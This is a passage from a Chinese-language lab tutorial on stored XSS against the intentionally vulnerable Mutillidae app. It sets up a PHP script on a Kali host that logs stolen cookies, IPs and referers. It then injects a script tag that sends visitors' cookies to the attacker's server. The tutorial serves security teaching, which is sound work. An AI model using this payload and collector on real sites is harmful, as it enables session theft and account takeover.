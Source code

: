 我们可以登陆一个账户若是没有账户可以直接注册：

![show-register](https://doc.shiyanlou.com/document-uid113508labid2434timestamp1483086661960.png/wm)

经过简单的注册，我们可以登陆上来了：

![show-login](https://doc.shiyanlou.com/document-uid113508labid2434timestamp1483086682080.png/wm)

这次我们依然是利用存储型 XSS 来帮助我们获取 cookie。

首先我们通过 `ssh root@kali` 登陆上 kali 的系统中，同时使用 `cd /var/www/html/` 进入到 Apache 的根目录中，这是为了让 mutillidae 能够访问到我们恶意的 php 代码。

然后我们在当前目录中通过 `vim getcookie.php` 来创建我们获取 cookie 的恶意文件，并在文本中输入以下内容：

```
<?php

$cookie = $_GET['remote_cookie'];
$ip = getenv ('REMOTE_ADDR');
$time=date('Y-m-d g:i:s');
$referer=getenv ('HTTP_REFERER');
$fp = fopen('cookie.txt', 'a');
fwrite($fp,"\n"." IP: " .$ip. " \n"." Date and Time: " .$time. "\n"." Referer: ".$referer."\n"." Cookie: ".$cookie."\n");
fclose($fp);
header("Location: http://192.168.122.102/mutillidae");

?>

```

我们通过 GET 的 cookie 变量来获取 cookie 值并存放在本地的 cookie 变量中，同时获取当前的访问者的 IP 地址，此时此刻的时间，还有访问的来源。

然后通过 fopen() 来创建一个 cookie.txt 的文本文件来存储获取到的值，若是该文本本来就存在就在其内容后面添加，不覆盖原本的内容。接着通过 fwrite() 函数来将我们刚刚所获取到的内容都写进去，最后关闭文件。为了不露出马脚，我们在执行完这一切之后将页面跳转至首页。

编写完成之后我们使用 `:wq` 保存并退出，紧接着我们在当前的文件夹中创建一个 cookie.txt 的文本文件，因为该目录的所属用户是 root，所以在这个 php 程序执行的时候是没有权限创建文件的，所以我们提前创建好，并使用 `chown www-data:www-data cookie.txt` 来改变该文件的所属者：

![show-cookietxt](https://doc.shiyanlou.com/document-uid113508labid2434timestamp1483086803463.png/wm)

最后我们通过 `service apache2 start` 来启动 apache2，这样 php 程序才能够被访问。

做好这一切的准备工作之后，我们便可以开始攻击了。

首先我们进入实验环境：

![entry-pxss](https://doc.shiyanlou.com/document-uid113508labid2434timestamp1483086705465.png/wm)

然后我们将这样一段 javascript 代码放入 blog 的输入框中：

```
<SCRIPT>document.location='http://192.168.122.101/getcookie.php?remote_cookie='+document.cookie</SCRIPT>
```

![entry-js](https://doc.shiyanlou.com/document-uid113508labid2434timestamp1483086712501.png/wm)
